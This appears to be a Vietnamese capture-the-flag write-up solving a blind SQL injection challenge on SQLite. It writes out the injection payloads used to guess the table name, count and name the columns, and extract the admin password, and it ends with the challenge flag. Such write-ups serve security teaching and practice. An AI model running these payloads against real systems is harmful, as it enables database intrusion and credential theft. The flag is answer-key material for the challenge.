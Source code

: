 = Tìm tên của bảng:

```
107’ AND (SELECT substr((SELECT name FROM sqlite_master WHERE type=‘table’),1,1)=‘a’) –
```

= Và trả về `User 107’ AND (SELECT substr((SELECT name FROM sqlite_master WHERE type=‘table’),1,1)=‘a’) – not found!`

= Thử các ký tự khác ở vị trí đầu rồi vị trí tiếp theo:

<img width="946" height="332" alt="image" src="https://github.com/user-attachments/assets/6c9f3955-41a3-45fe-a899-e23d813ba746" />

=> Tên bảng là `users`

= Tìm số cột và tên của từng cột:

```
admin’ AND ((SELECT count(*) FROM pragma_table_info(‘users’))=3) –
```

=> Có 3 cột.

= Kiểm tra tên từng cột:

```
admin’ AND (SELECT substr((SELECT name from pragma_table_info(‘users’)LIMIT 1 OFFSET 0),1,1)=’a’) –
admin’ AND (SELECT substr((SELECT name from pragma_table_info(‘users’)LIMIT 1 OFFSET 1),1,1)=’a’) –
admin’ AND (SELECT substr((SELECT name from pragma_table_info(‘users’)LIMIT 1 OFFSET 2),1,1)=’a’) –
```

=> Nhận được giá trị của 3 cột là idx uid và upw

=> Dự đoán là uid sẽ là cột chứa tên người dùng và upx là password. Ta sẽ dò giá trị password của tài khoản admin.

= Dò giá trị password của tài khoản `admin`:

<img width="1498" height="894" alt="image" src="https://github.com/user-attachments/assets/827cfbb2-b094-4909-b97a-ddb79869e11f" />

Thu được password như vậy

= Thu được flag là:

`
CHH{SImPle_B1IND_SQLi_33ebd3905ad054165900697c7b532b63}
`








